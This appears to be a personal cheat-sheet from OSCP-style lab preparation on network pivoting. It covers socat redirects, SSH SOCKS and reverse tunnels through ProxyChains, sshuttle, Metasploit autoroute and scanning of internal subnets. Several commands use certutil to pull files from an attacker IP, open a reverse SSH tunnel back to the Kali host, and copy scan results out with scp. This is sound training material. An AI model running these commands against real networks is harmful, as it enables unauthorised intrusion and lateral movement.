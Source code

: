 <%*
const path = tp.file.folder(true).split('/');
const filename = "4_B_Network_" + path[path.length - 1];
await tp.file.rename(filename)
-%>
# Port Redirect

\[Subnets\]                         WAN          |     Subnet  1     |      Subnet 2     |      Subnet 3
\[Hosts\]               Kali    --->   Machine A ---> Machine B ---> Machine C
\-
\[Simple\]                                        Socat                  Target
\[Local\]                                      SSH Client           SSH Server             Target
\[Remote\]     SSH Server          SSH Client              Target

### Simple static
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:$hip:$hport
```
(Machine A)

Alternative with netcat: https://gist.github.com/holly/6d52dd9addd3e58b2fd5
Alternative requiring root rights: iptables
### Local Dynamic
```powershell
ssh -N -D 0.0.0.0:9997 $user_B@$ip_B
```
(Machine A)

### Remote Dynamic with ProxyChains and SSH
> Requires SSH above 7.6. Check with `ssh -V`.
##### 1st Setup (kali machine)
SSH
```
ssh-keygen -t rsa -b 4096 -f ./id_rsa_kali
cat ./id_rsa_kali.pub >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```
ProxyChains
```bash
nano /etc/proxychains4.conf
```
> With it, tools that do not support socks proxys by default, can be made compatible with the tunnel IF they are (most) dynamically-linked binaries.
> For local redirects add `socks5 $hip 9999` to the end.
> For remote redirects use `socks5 127.0.0.1 9999`.
> If socks4 is required, UDP and IPv6 won't be supported.
##### Use it
(kali machine)
```bash
sudo systemctl start ssh
```

(Machine A, interactive)
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.195:8000/id_rsa_kali"; ssh -i id_rsa_kali -N -R 9997 kali@192.168.45.195
```
or
(Machine A, non-interactive)
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.182:8000/id_rsa_kali"; ssh -f -q -o BatchMode=yes -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i id_rsa_kali -N -R 9997 kali@$hip
```

(kali machine)
`proxychains <command>` to start e.g. a nmap scan over the pivot. It appears to then not use the IP-Addresses put into `/etc/hosts`

### Remote Dynamic with sshuttle
> Requires python on machine A!

```bash
socat TCP-LISTEN:2222,fork TCP:$ip_B:22
```
(Machine A)

```bash
sshuttle -r $user_A@$ip_A:2222 $subnet_2 $subnet_1
```
(kali machine)

### Remote Dynamic with Metasploit
Within an exististing session:
1. `bg`
2. `use post/multi/manage/autoroute`, `set session 1`, and `run -j` (adjust the session number)
3. `use auxiliary/server/socks_proxy`, `set VERSION 5`, `set SRVHOST 127.0.0.1`, `set SRVPORT 9989`, and `run -j`
4. Add `socks5 127.0.0.1 9989` to `/etc/proxychains4.conf` 
# Fault handling
Test the connection
`proxychains nmap -Pn $hip -p $hport`
`sudo ss -ntplu`

Proxychains does not work with tool (e.g. enum4linux)
`proxychains -q`

Slow scanning speeds
--> lower `tcp_read_time_out` and `tcp_connect_time_out` in `/etc/proxychains4.conf`

Start SSH Agent on windows
`Get-Service ssh-agent | Select StartType` says disabled
--> `Get-Service -Name ssh-agent | Set-Service -StartupType Manual ; Start-Service ssh-agent`

Correct ssh-key permissions on windows
```powershell
New-Variable -Name Key -Value "C:\Users\Public\id_rsa_kali"
# Remove Inheritance:
  Icacls $Key /c /t /Inheritance:d

# Set Ownership to Owner:
  # Key's within $env:UserProfile:
    Icacls $Key /c /t /Grant ${env:UserName}:F

   # Key's outside of $env:UserProfile:
     TakeOwn /F $Key
     Icacls $Key /c /t /Grant:r ${env:UserName}:F

# Remove All Users, except for Owner:
  Icacls $Key /c /t /Remove:g Administrator "Authenticated Users" BUILTIN\Administrators BUILTIN Everyone System Users

# Verify:
  Icacls $Key

# Remove Variable:
  Remove-Variable -Name Key
```
# Windows specific

Enable Telnet
```powershell
dism /online /Enable-Feature /FeatureName:TelnetClient
```
Portscan LOLBAS
```powershell
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("$hip", $_)) "TCP port $_ is open"} 2>$null
```
Pingsweep LOLBAS (**I SPENT SOME TIME FINDING THE MOST EFFICIENT APPROACH AND FORGOT TO NOTE WHICH OF THESE WORKED**)
```powershell
workflow pingsweep { foreach -parallel ($computer in 1..254) { if (Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$computer -Quiet) {echo "192.168.209.$computer"} {echo "nein"} } }; pingsweep
```

```powershell
1..254 | % { if (Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$_ -Quiet) {echo "192.168.209.$_"}} 2>$null
```

```powershell
$(foreach ($computer in 1..254) { Start-Job -ScriptBlock { if ( Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$using:computer -Quiet ) {echo "192.168.209.$using:computer"} } }) | Receive-Job -Wait
```


For port forwarding techniques using the windows tools plink, and netsh, consider the oscp manual

##### Create working dirs and start individual system scanning

```bash
for i in $(tail -n 7 0_Hosts); do (mkdir -p "B_$i" && cd $_ && proxychains nmap -Pn --osscan-guess -T 5 -A --top-ports 100 $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html)& done
```

> **If you have a windows GUI oder linux CLI and Administrator rights, scan from the remote host itself:**

##### Scan with nmap from Windows
1. Install nmap, requires GUI
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.158:8000/nmap-7.94-win-setup.exe" ; .\nmap-7.94-win-setup.exe
```
You can find the installer in `/ftphome/`
2. Run pingsweep and add new hosts to `/etc/hosts`. Also, add them to `ips.txt` on the windows host 
```powershell
& "C:\Program Files (x86)\Nmap\nmap.exe" -sn 172.16.199."1-254" -oG - | findstr "Status: Up"
```
3. Run full scan
   ```powershell
ForEach ($i in $(Get-Content -Path ips.txt)){& "C:\Program Files (x86)\Nmap\nmap.exe" --osscan-guess -T 5 -A -p- $i -oX "C:\Users\tempadmin\${i}_fullscan.xml" }; 
ForEach ($i in $(Get-Content -Path ips.txt)){& "C:\Program Files (x86)\Nmap\nmap.exe" -sUV --top-ports 100 $i -oN "C:\Users\tempadmin\0_udp_top100_${i}.txt" }
```
4. Zip the resulting files and transfer them to kali, e.g. with:
```powershell
scp -i id_rsa_kali transfer.zip kali@192.168.45.158:'/home/kali/oscp/lab/Medtech/A_WEB02/extract'
```
5. Unzip the file and move all files to their respective host's folder.
7. Change the path within the .xml files so that xlstproc can find the nmap stylesheet, then run the latter.
```bash
for i in $(find .. -name "*fullscan.xml" | tr '\n' ' '); do \
cd ../$(echo $i | cut -d '/' -f2); \
mv 0_overview.html overview_from_A.html.bak; \
sed -i 's/C:\/Program Files (x86)\/Nmap\/nmap.xsl/usr\/bin\/..\/share\/nmap\/nmap.xsl/g' $i; \
xsltproc -o 0_overview.html $i; done
```